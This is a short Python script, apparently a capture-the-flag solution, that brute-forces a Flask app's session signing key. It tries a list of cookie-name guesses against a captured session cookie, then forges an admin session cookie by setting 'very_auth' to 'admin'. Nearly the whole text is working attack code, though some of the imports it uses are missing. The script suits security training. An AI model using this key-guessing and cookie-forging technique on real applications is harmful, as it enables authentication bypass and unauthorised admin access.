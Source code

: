     from flask.sessions import TaggedJSONSerializer
    def flask_cookie(secret_key, cookie_str, operation):
        # This function is a simplified version of the SecureCookieSessionInterface: https://github.com/pallets/flask/blob/020331522be03389004e012e008ad7db81ef8116/src/flask/sessions.py#L304.
        salt = 'cookie-session'
        serializer = TaggedJSONSerializer()
        signer_kwargs = {
            'key_derivation': 'hmac',
            'digest_method': hashlib.sha1
        }
        s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
        if operation == "decode":
            return s.loads(cookie_str)
        else:
            return s.dumps(cookie_str)
    
    # The list of possible secret keys used by the app.
    possible_keys = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
    
    # An encoded cookie pulled from the live application that can be used to guess the secret key.
    cookie_str = "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Y5aLfQ.8-yo5AQkbRkdClPgrdEkj4-houU"
    
    # For each possible key try to decode the cookie.
    for possible_secret_key in possible_keys:
        try:
            cookie_decoded = flask_cookie(possible_secret_key, cookie_str, "decode")
        except BadTimeSignature:
            # If the decoding fails then try the next key.
            continue
        secret_key = possible_secret_key
        # Break the loop when we have the corret key.
        break
    
    print("Secret Key: %s" % secret_key)
    
    # The admin cookie has the `very_auth` value set to `admin`, which can be seen on line 46 of the server.py code.
    admin_cookie = {"very_auth": "admin"}
    # Encode the cookie used the `SecureCookieSessionInterface` logic.
    admin_cookie_encoded = flask_cookie(secret_key, admin_cookie, "encode")
    